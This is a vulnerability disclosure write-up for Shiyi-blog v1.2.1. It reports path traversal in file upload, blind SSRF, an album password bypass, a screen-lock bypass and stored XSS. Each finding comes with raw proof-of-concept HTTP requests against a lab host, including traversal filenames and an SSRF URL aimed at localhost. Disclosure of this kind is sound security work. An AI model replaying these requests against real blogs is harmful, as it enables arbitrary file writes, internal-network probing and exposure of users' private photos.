BUG_Author

Longlong Gong

# Project

Address: [拾壹博客](https://gitee.com/quequnlong/shiyi-blog)

## 1、File Path Traversal

###  1.1、`/api/file/upload` File Path Traversal

[Affected version]

v1.2.1


[Affected Component]

/api/file/upload


[Software]

https://gitee.com/quequnlong/shiyi-blog/archive/refs/tags/1.2.1.zip


[Description]

Shiyi-blogv1.2.1 When uploading files through the "/pi/file/upload" interface, file names or source parameters can be passed through directory traversal to upload any file to any location in the server root directory. If it is a Linux server, it may be replaced with sshkey or write scheduled tasks, causing the server to crash

POC1

```
POST /api/file/upload?source=article-cover HTTP/1.1
Host: 192.168.1.184:3000
Content-Length: 199
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypABFa8Q7X5FNBBqN
Authorization: f5dedffb-981b-452a-aa06-be1af2cc883e
Accept: */*
Origin: http://192.168.1.184:3000
Referer: http://192.168.1.184:3000/article/index
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_adedae9bc250561cc17e96dc1fb46079=1741931237,1741948074,1742043334; Hm_lvt_2745ad927051c4bc7b7ee34b781df793=1744506741,1744520951; skinName=skin-blue3; pageNo=1; pageSize=20; Hm_lvt_65b88e88a94e0118de2962f328f17622=1745801629,1745815851,1745847189; Hm_lvt_0febd9e3cacb3f627ddac64d52caac39=1747835683,1747871764,1747956424; Hm_lvt_725f624fdb6a307fa04e422db6d078fd=1748158470; Hm_lpvt_725f624fdb6a307fa04e422db6d078fd=1748158470; HMACCOUNT=A206C719C9C02C2F; JSESSIONID=60229E0D2D7BD9F675C00A8EB9E34F9C; Authorization=f5dedffb-981b-452a-aa06-be1af2cc883e; Neat-Admin-Token=f5dedffb-981b-452a-aa06-be1af2cc883e
Connection: keep-alive

------WebKitFormBoundarypABFa8Q7X5FNBBqN
Content-Disposition: form-data; name="file"; filename="../../../flag"
Content-Type: image/jpeg

this is flag
------WebKitFormBoundarypABFa8Q7X5FNBBqN--

```

POC2

```
POST /api/file/upload?source=../.. HTTP/1.1
Host: 192.168.1.184:3000
Content-Length: 190
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypABFa8Q7X5FNBBqN
Authorization: f5dedffb-981b-452a-aa06-be1af2cc883e
Accept: */*
Origin: http://192.168.1.184:3000
Referer: http://192.168.1.184:3000/article/index
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_adedae9bc250561cc17e96dc1fb46079=1741931237,1741948074,1742043334; Hm_lvt_2745ad927051c4bc7b7ee34b781df793=1744506741,1744520951; skinName=skin-blue3; pageNo=1; pageSize=20; Hm_lvt_65b88e88a94e0118de2962f328f17622=1745801629,1745815851,1745847189; Hm_lvt_0febd9e3cacb3f627ddac64d52caac39=1747835683,1747871764,1747956424; Hm_lvt_725f624fdb6a307fa04e422db6d078fd=1748158470; Hm_lpvt_725f624fdb6a307fa04e422db6d078fd=1748158470; HMACCOUNT=A206C719C9C02C2F; JSESSIONID=60229E0D2D7BD9F675C00A8EB9E34F9C; Authorization=f5dedffb-981b-452a-aa06-be1af2cc883e; Neat-Admin-Token=f5dedffb-981b-452a-aa06-be1af2cc883e
Connection: keep-alive

------WebKitFormBoundarypABFa8Q7X5FNBBqN
Content-Disposition: form-data; name="file"; filename="flag"
Content-Type: image/jpeg

this is second flag
------WebKitFormBoundarypABFa8Q7X5FNBBqN--

```

First, let's go to article management and edit an article



Choose to upload the cover and capture the data packet



There are two vulnerabilities here, one is the filename field and the other is the source field

Change the filename to ./../. ./flag



The following code shows that it directly obtains the file name concatenation



Successfully traversed directory and uploaded files





The second method is to use the source field



Successfully uploaded



## 2、SSRF

### 2.1、`/api/sys/article/reptile`Blind SSRF

[Affected version]

v1.2.1


[Affected Component]

/api/sys/article/reptile


[Software]

https://gitee.com/quequnlong/shiyi-blog/archive/refs/tags/1.2.1.zip


[Description]

There is a no echo SSRF vulnerability in the Shiyi blogv1.2.1 `/app/sys/article/optimize ` interface, which allows hackers to make requests to sensitive interfaces within the internal network, posing a threat to internal network security

POC

```
GET /api/sys/article/reptile?url=http:%2F%2F127.0.0.1:8888/pay?money=1 HTTP/1.1
Host: 192.168.1.184:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
Authorization: f5dedffb-981b-452a-aa06-be1af2cc883e
Referer: http://192.168.1.184:3000/article/index
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_adedae9bc250561cc17e96dc1fb46079=1741931237,1741948074,1742043334; Hm_lvt_2745ad927051c4bc7b7ee34b781df793=1744506741,1744520951; skinName=skin-blue3; pageNo=1; pageSize=20; Hm_lvt_65b88e88a94e0118de2962f328f17622=1745801629,1745815851,1745847189; Hm_lvt_0febd9e3cacb3f627ddac64d52caac39=1747835683,1747871764,1747956424; Hm_lvt_725f624fdb6a307fa04e422db6d078fd=1748158470; Hm_lpvt_725f624fdb6a307fa04e422db6d078fd=1748158470; HMACCOUNT=A206C719C9C02C2F; JSESSIONID=60229E0D2D7BD9F675C00A8EB9E34F9C; Authorization=f5dedffb-981b-452a-aa06-be1af2cc883e; Neat-Admin-Token=f5dedffb-981b-452a-aa06-be1af2cc883e
Connection: keep-alive


```

Firstly, go to Article Management and click on 'Crawl Articles'



Enter the address to crawl the article



Successfully initiated requests to other ports within the internal network



## 3、Logical loopholes

### 3.1、Bypass password verification and directly view photo albums

[Affected version]

v1.2.1


[Affected Component]

/dev-api/api/album/photos/{albumId}


[Software]

https://gitee.com/quequnlong/shiyi-blog/archive/refs/tags/1.2.1.zip


[Description]

There is a logical vulnerability in the Shiyi blogv1.2.1 `/dev api/app/album/photos/{albumId} ` interface, which allows hackers to view managed confidential photos without verifying passwords, endangering user privacy and security

POC

```
GET /dev-api/api/album/photos/6 HTTP/1.1
Host: 192.168.1.184:3001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
Referer: http://192.168.1.184:3001/photos/6
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive


```

First, go to Site Management, Album Management, add an album and a few photos, and set a password







The following code shows that the photo list can be directly obtained



Let's first click on the album to get the album ID. Here is 6



You can directly use the POC call interface provided above to see the URL



You can directly access the URL of the corresponding photo to see the encrypted photo



### 3.2、Attackers can bypass screen lock to access the backend

[Affected version]

v1.2.1


[Affected Component]

/api/sys/user/verifyPassword/{password}


[Software]

https://gitee.com/quequnlong/shiyi-blog/archive/refs/tags/1.2.1.zip


[Description]

Shiyi blogv1.2.1“/api/sys/user/verifyPassword/{password}” There is a logical vulnerability in the interface that allows hackers to bypass screen lock and access the administrator backend

POC

```
GET /api/sys/user/verifyPassword/111111

{"code":200,"message":"success","data":false,"extra":{}}
```

First, click on the avatar and select Lock Screen



You can see below that the screen has been locked



Next, let's go to Burp to set the return package with "data": true. It is necessary to set it manually because it is not as fast



Successfully entered the backend



## 4、Stored cross-site scripting

### 4.1、`/dev-api/api/comment/add`Stored cross-site scripting

[Affected version]

v1.2.1


[Affected Component]

/dev-api/api/comment/add


[Software]

https://gitee.com/quequnlong/shiyi-blog/archive/refs/tags/1.2.1.zip


[Description]

There is an XSS vulnerability in shiyi-blogv1.2.1, which is caused by incorrect parameter name handling when commenting through the "/dev api/app/comment/add" interface. Hackers can exploit this vulnerability to obtain cookies, conduct phishing attacks, and worm attacks.

POC

```
POST /dev-api/api/comment/add HTTP/1.1
Host: 192.168.1.184:3001
Content-Length: 89
Authorization: cece53fc-0880-4985-bc0b-5a1ba9123fbd
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
Content-Type: application/json
Origin: http://192.168.1.184:3001
Referer: http://192.168.1.184:3001/post/292
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_adedae9bc250561cc17e96dc1fb46079=1741931237,1741948074,1742043334; Hm_lvt_2745ad927051c4bc7b7ee34b781df793=1744506741,1744520951; skinName=skin-blue3; pageNo=1; pageSize=20; Hm_lvt_65b88e88a94e0118de2962f328f17622=1745801629,1745815851,1745847189; Hm_lvt_0febd9e3cacb3f627ddac64d52caac39=1747835683,1747871764,1747956424; Hm_lvt_725f624fdb6a307fa04e422db6d078fd=1748158470; HMACCOUNT=A206C719C9C02C2F; JSESSIONID=60229E0D2D7BD9F675C00A8EB9E34F9C; Neat-Admin-Token=9227d255-798a-4693-affa-06a0b29cfe3b; Hm_lpvt_725f624fdb6a307fa04e422db6d078fd=1748166153; Authorization=cece53fc-0880-4985-bc0b-5a1ba9123fbd; blog_token=cece53fc-0880-4985-bc0b-5a1ba9123fbd
Connection: keep-alive

{"content":"","articleId":"292","browser":"Chrome 136.0.0.0"}
```

Login to the front-end blog first



Select an article to comment on



Directly injecting payload successfully executes XSS


